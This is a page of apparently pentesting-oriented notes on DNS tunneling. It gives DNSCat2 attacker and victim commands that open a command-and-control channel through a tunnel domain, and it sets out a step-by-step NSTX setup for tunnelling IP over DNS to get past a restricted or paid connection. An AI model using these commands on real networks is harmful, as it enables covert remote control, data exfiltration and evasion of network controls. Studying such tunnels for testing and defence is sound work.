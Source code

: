 # ⭕ DNS Tunneling

## <mark style="color:red;">DNSCat2</mark>

{% embed url="https://github.com/iagox86/dnscat2" %}

Establishes a C\&C channel through DNS. It doesn't need root privileges.

```
attacker> ruby ./dnscat2.rb tunneldomain.com
victim> ./dnscat2 tunneldomain.com
```

## <mark style="color:red;">NSTX</mark>

is a hack to tunnel IP traffic over DNS.If DNS traffic does not work, but ICMP traffic (i.e., ping) works, try ICMPTX: IP-over-ICMP. Note that these instructions play nicely with ICMPTX. You can run both on one proxy.

You need several things to get going:

a DNS server that you can configure, (we'll call this ns.example.com) another server, one not running DNS. We're going to assume the IP address of this machine is 1.2.3.4. The reason you cannot run DNS on the same machine, is that you're going to run nstx on this machine. Nstx must run on port 53, like DNS. a crippled Internet connection, i.e., one that only allows you to issue DNS queries.

### <mark style="color:orange;">Configure a new DNS subdomain</mark>

Let's assume you're running the domain "example.com". The nameserver for this domain is, as mentioned before, "ns.example.com". Configure "ns.example.com" by adding a subdomain, "tunnel.example.com". You do this by appending the following DNS records at the end of the zone file for "example.com":

```
;
; subdomain for IP-over-DNS tunnelling
;
$ORIGIN tunnel.example.com.
@               IN      NS      ns.tunnel.example.com.
ns              IN      A       1.2.3.4
```

In other words. We configured 1.2.3.4 to be the name server for a new subdomain "tunnel.example.com".

### <mark style="color:orange;">Install and configure the bogus DNS server</mark>

On the machine 1.2.3.4, make sure your kernel supports the TUN/TAP network device. If you installed a standard 2.6 kernel image, it does. You may have to manually /sbin/modprobe tun. Install the nstx Debian package:

```
apt-get install nstx
```

Edit /etc/default/nstx and set NSTX\_DOMAIN to "tunnel.example.com" and set start\_nstxd to "yes". Finally, set ifup\_tun0 to "yes". In /etc/network/interfaces, define a new interface tun0, as follows:

```
iface tun0 inet static
  address 10.0.0.1
  netmask 255.0.0.0
```

Now start the server by running:

```
/etc/init.d/nstxd restart
```

If you're not running Debian, you can skip all that and just download the code, compile it manually, and start the server by hand and then configure the tun0 network device:

```
# nstxd tunnel.example.com
# /sbin/modprobe tun
# /sbin/ifconfig tun0 up 10.0.0.1 netmask 255.255.255.0
```

Whether you're running Debian or not, after running the nstx server, make sure you now have a tun0 device:

```
# /sbin/ifconfig tun0
tun0      Link encap:UNSPEC  HWaddr XX-XX-XX-XX-XX-XX-XX-XX-XX-XX-XX-XX-XX-XX-XX-XX
          inet addr:10.0.0.1  P-t-P:10.0.0.1  Mask:255.0.0.0
          UP POINTOPOINT RUNNING NOARP MULTICAST  MTU:1500  Metric:1
          RX packets:50 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:10
          RX bytes:0 (0.0 b)  TX bytes:0 (0.0 b)
```

Now you need to enable forwarding on this server. I use iptables to implement masquerading. There are many HOWTOs about this (a simple one, for example). On Debian, the configuration file for iptables is in /var/lib/iptables/active. The relevant bit is:

```
*nat
:PREROUTING ACCEPT [6:1596]
:POSTROUTING ACCEPT [1:76]
:OUTPUT ACCEPT [1:76]

-A POSTROUTING -s 10.0.0.0/8 -j MASQUERADE
COMMIT
```

Restart iptables:

```
/etc/init.d/iptables restart
```

and enable forwarding:

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

You can make sure this is permanent by editing /etc/sysctl.conf:

```
net/ipv4/ip_forward=1
```

### <mark style="color:orange;">Configure the client</mark>

Make sure the kernel on the client machine also supports the TUN/TAP network device. If you installed a standard 2.6 kernel image, it does. You may have to manually /sbin/modprobe tun. Install the nstx Debian package:

```
apt-get install nstx
```

Edit /etc/default/nstx and set NSTX\_DOMAIN to "tunnel.example.com" and set start\_nstxcd to "yes". Finally, set ifup\_tun0 to "yes". In /etc/network/interfaces, define a new interface tun0, as follows:

```
iface tun0 inet static
  address 10.0.0.2
  netmask 255.0.0.0
  mtu 500 # optional, may solve ssh problems
```

Marc Merlin points out that you may you want to add something like (below the mtu line)

```
post-up route del default; route add -net default gw 10.0.0.1
```

now you're sitting at an airport or in a cafe, and you have internet access and they want your money before allowing you on the Internet. However, you noticed that you can issue DNS queries.

Assuming you got an IP address through DHCP, you should now know the IP address of the DNS server they want you to use. Your /etc/resolv.conf will contain at least one "nameserver" entry. Make sure you use the first nameserver entry in /etc/resolv.conf and remove the others. For the sake of this example, let's call the first and remaining nameserver 66.77.88.99. Edit /etc/default/nstx and change set NSTX\_DNS\_SERVER to "66.77.88.99". The latest nstx Debian package obviates this manual step as follows:

```
NSTX_DNS_SERVER=`grep nameserver /etc/resolv.conf |head -1|awk '{print $2}'`
```

That is, it simply sets NSTX\_DNS\_SERVER to the IP address of the first nameserver entry in /etc/resolv.conf.

Now, (re)start the nstx client:

```
 /etc/init.d/nstxcd restart
```

If you don't have Debian, start the client manually:

```
# nstxcd tunnel.example.com 66.77.88.99
# /sbin/modprobe tun
# /sbin/ifconfig tun0 up 10.0.0.2 netmask 255.255.255.0
```

Make sure you now have a tun0 device:

```
# /sbin/ifconfig tun0
tun0      Link encap:UNSPEC  HWaddr 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00
          inet addr:10.0.0.2  P-t-P:10.0.0.2  Mask:255.0.0.0
          UP POINTOPOINT RUNNING NOARP MULTICAST  MTU:1500  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:500
          RX bytes:0 (0.0 b)  TX bytes:0 (0.0 b)
```

By running /sbin/route -n, figure out what your gateway is. It's the record with the "UG" Flags field. For example:

```
# /sbin/route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
192.168.1.0     0.0.0.0         255.255.255.0   U     0      0        0 wlan0
0.0.0.0         192.168.1.1     0.0.0.0         UG    0      0        0 wlan0
```

OK. So "192.168.1.1" is our gateway. Assuming your wireless network device is called "wlan0" (but it might well be "eth1", or whatever), run:

```
# /sbin/route del default
# /sbin/route add -host 66.77.88.99 gw 192.168.1.1 dev wlan0
# /sbin/route add default gw 10.0.0.1 tun0
```

Notice that "192.168.1.1" is the IP address of the gateway we learned by running "/sbin/route -n". Similarly, "66.77.88.99" is the nameserver from /etc/resolv.conf. Make sure you plug in the correct IP address in both cases.

You should now be all set. All DNS traffic is going straight to 66.77.88.99. All other traffic will be tunnelled through 1.2.3.4, via DNS.
